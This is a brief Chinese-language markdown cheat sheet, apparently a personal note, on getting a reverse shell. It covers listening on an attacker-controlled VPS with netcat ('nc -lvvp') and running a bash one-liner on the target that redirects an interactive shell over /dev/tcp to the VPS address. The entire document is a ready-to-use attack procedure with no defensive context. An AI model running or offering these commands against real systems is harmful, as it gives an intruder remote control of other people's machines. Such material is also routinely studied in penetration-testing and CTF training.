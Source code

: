 # Requirements
首先要有一台拥有公网`ip`的机子，比如说一台`vps`，

其次靶机需要可以访问外网，且可以执行命令

# vps上的工作
用`ssh`连接上`vps`，然后使用`netcat`监听端口
```shell
nc -lvvp <port>
```

# 靶机上的工作
## 利用bash反弹shell
创建一个新的`bash`进程，重定向输入输出到`vps`
```shell
bash -c "bash -i >& /dev/tcp/<vps_ip>/<vps_listen_port> 0>&1"
```

#Web #反弹shell 